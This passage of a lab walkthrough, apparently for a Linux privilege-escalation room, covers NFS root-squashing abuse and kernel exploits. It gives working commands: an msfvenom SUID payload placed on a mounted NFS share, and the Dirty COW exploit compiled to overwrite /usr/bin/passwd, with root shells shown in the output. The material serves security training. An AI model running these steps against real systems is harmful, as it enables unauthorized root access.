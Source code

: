 
Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user. to check the NFS share configuration , run ```cat /etc/exports``` Note that the /tmp share has root squashing disabled.

Now let mount the NFS to our kali
```console
$ mkdir /tmp/nfs # create directory
$ mount -o rw,vers=2 <target IP>:/tmp /tmp/nfs # mount NFS
$ sudo msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf # generate payload and save it at the mounted share      
$ sudo chmod +xs /tmp/nfs/shell.elf # make the payload executable and set the SUID permission.
```
The owner of the payload now is root user which is why we set the SUID permission. so the we PrivEsc using user cerdential to execute the payload.
```console
user@debian:~$ ls -la /tmp/
total 116                                                     
drwxrwxrwt  2 root root  4096 May 25 20:14 .                  
drwxr-xr-x 22 root root  4096 Aug 25  2019 ..                 
-rw-r--r--  1 root root 94636 May 25 20:14 backup.tar.gz      
-rwsr-sr-x  1 root root   132 May 25 20:13 shell.elf          
-rw-r--r--  1 root root    29 May 25 20:14 useless
user@debian:~$ /tmp/shell.elf                                 
bash-4.1# whoami                                              
root 
```

#  [Task 20] Kernel Exploits
Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort. Run the ```Linux Exploit Suggester 2``` tool to identify potential kernel exploits on the current system. github links for ```Linux Exploit Suggester 2``` [here](https://github.com/jondonas/linux-exploit-suggester-2)


note that the target machine is vulnerable to **Dirty Cow**. watch [this](https://youtu.be/kEsshExn7aE), It might help to understand how dity cow works. Exploit code for Dirty COW can be found at ```/home/user/tools/kernel-exploits/dirtycow/c0w.c``` or download from exploit-db. It replaces the SUID file /usr/bin/passwd with one that spawns a shell (a backup of /usr/bin/passwd is made at /tmp/bak).Compile the code and run it (note that it may take several minutes to complete):

```console
user@debian:~$ gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w

user@debian:~$ ./c0w
                                
   (___)                                   
   (o o)_____/                             
    @@ `     \                            
     \ ____, //usr/bin/passwd                          
     //    //                              
    ^^    ^^                               
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap efe25000

madvise 0

ptrace 0

user@debian:~$ /usr/bin/passwd
root@debian:/home/user#  
```
now to remove the expoit and return the machine back to normalt stage
```console
$ mv /tmp/bak /usr/bin/passwd
```